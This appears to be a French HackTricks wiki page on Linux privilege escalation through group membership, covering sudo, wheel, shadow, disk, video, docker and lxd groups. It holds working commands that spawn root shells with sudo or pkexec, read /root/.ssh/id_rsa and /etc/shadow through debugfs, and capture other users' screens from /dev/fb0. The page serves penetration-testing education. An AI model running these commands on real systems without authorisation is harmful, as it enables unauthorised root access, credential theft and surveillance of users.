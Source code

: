 {% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Utilisez [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) pour construire et **automatiser des workflows** facilement grâce aux **outils communautaires les plus avancés** au monde.\
Accédez dès aujourd'hui :

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

# Groupes Sudo/Admin

## **PE - Méthode 1**

**Parfois**, **par défaut \(ou parce que certains logiciels en ont besoin\)**, vous pouvez trouver certaines de ces lignes dans le fichier **/etc/sudoers** :
```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```
Cela signifie que **tout utilisateur appartenant au groupe sudo ou admin peut exécuter n'importe quoi en tant que sudo**.

Si c'est le cas, pour **devenir root, vous pouvez simplement exécuter**:
```text
sudo su
```
## PE - Méthode 2

Trouvez tous les binaires suid et vérifiez s'il y a le binaire **Pkexec** :
```bash
find / -perm -4000 2>/dev/null
```
Si vous constatez que le binaire pkexec est un binaire SUID et que vous appartenez à sudo ou admin, vous pourriez probablement exécuter des binaires en tant que sudo en utilisant pkexec.  
Vérifiez le contenu de :
```bash
cat /etc/polkit-1/localauthority.conf.d/*
```
Là, vous trouverez quels groupes sont autorisés à exécuter **pkexec** et **par défaut** dans certains linux peuvent **apparaître** certains des groupes **sudo ou admin**.

Pour **devenir root, vous pouvez exécuter**:
```bash
pkexec "/bin/sh" #You will be prompted for your user password
```
Si vous essayez d'exécuter **pkexec** et que vous obtenez cette **erreur** :
```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```
**Ce n'est pas parce que vous n'avez pas de permissions mais parce que vous n'êtes pas connecté sans une interface graphique**. Et il existe une solution à ce problème ici : [https://github.com/NixOS/nixpkgs/issues/18012\#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903). Vous avez besoin de **2 sessions ssh différentes** :

{% code title="session1" %}
```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```
{% endcode %}

{% code title="session2" %}
```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
{% endcode %}

# Groupe Wheel

**Parfois**, **par défaut** dans le fichier **/etc/sudoers**, vous pouvez trouver cette ligne :
```text
%wheel	ALL=(ALL:ALL) ALL
```
Cela signifie que **tout utilisateur appartenant au groupe wheel peut exécuter n'importe quoi en tant que sudo**.

Si c'est le cas, pour **devenir root, vous pouvez simplement exécuter**:
```text
sudo su
```
# Groupe Shadow

Les utilisateurs du **groupe shadow** peuvent **lire** le **/etc/shadow** fichier :
```text
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```
Alors, lisez le fichier et essayez de **craquer quelques hashes**.

# Groupe de Disque

Ce privilège est presque **équivalent à l'accès root** car vous pouvez accéder à toutes les données à l'intérieur de la machine.

Fichiers : `/dev/sd[a-z][1-9]`
```text
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
Notez qu'en utilisant debugfs, vous pouvez également **écrire des fichiers**. Par exemple, pour copier `/tmp/asd1.txt` vers `/tmp/asd2.txt`, vous pouvez faire :
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
Cependant, si vous essayez de **modifier des fichiers appartenant à root** \(comme `/etc/shadow` ou `/etc/passwd`\), vous obtiendrez une erreur "**Permission denied**".

# Groupe Vidéo

En utilisant la commande `w`, vous pouvez trouver **qui est connecté au système** et cela affichera une sortie comme celle-ci :
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
Le **tty1** signifie que l'utilisateur **yossi est connecté physiquement** à un terminal sur la machine.

Le **groupe vidéo** a accès à l'affichage de la sortie écran. En gros, vous pouvez observer les écrans. Pour ce faire, vous devez **capturer l'image actuelle à l'écran** en données brutes et obtenir la résolution que l'écran utilise. Les données de l'écran peuvent être enregistrées dans `/dev/fb0` et vous pouvez trouver la résolution de cet écran dans `/sys/class/graphics/fb0/virtual_size`
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
Pour **ouvrir** l'**image brute**, vous pouvez utiliser **GIMP**, sélectionner le fichier **`screen.raw`** et choisir comme type de fichier **Données d'image brute** :

![](../../.gitbook/assets/image%20%28208%29.png)

Ensuite, modifiez la largeur et la hauteur pour celles utilisées sur l'écran et vérifiez différents types d'image \(et sélectionnez celui qui montre mieux l'écran\) :

![](../../.gitbook/assets/image%20%28295%29.png)

# Groupe Root

Il semble qu'en par défaut, les **membres du groupe root** pourraient avoir accès à **modifier** certains fichiers de configuration de **service** ou certains fichiers de **bibliothèques** ou **d'autres choses intéressantes** qui pourraient être utilisées pour élever les privilèges...

**Vérifiez quels fichiers les membres root peuvent modifier** :
```bash
find / -group root -perm -g=w 2>/dev/null
```
# Docker Group

Vous pouvez monter le système de fichiers racine de la machine hôte sur le volume d'une instance, de sorte que lorsque l'instance démarre, elle charge immédiatement un `chroot` dans ce volume. Cela vous donne effectivement les droits root sur la machine.

{% embed url="https://github.com/KrustyHack/docker-privilege-escalation" %}

{% embed url="https://fosterelli.co/privilege-escalation-via-docker.html" %}

# lxc/lxd Group

[lxc - Escalade de privilèges](lxd-privilege-escalation.md)


<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Utilisez [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) pour construire et **automatiser des flux de travail** facilement alimentés par les **outils communautaires les plus avancés** au monde.\
Obtenez l'accès aujourd'hui :

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
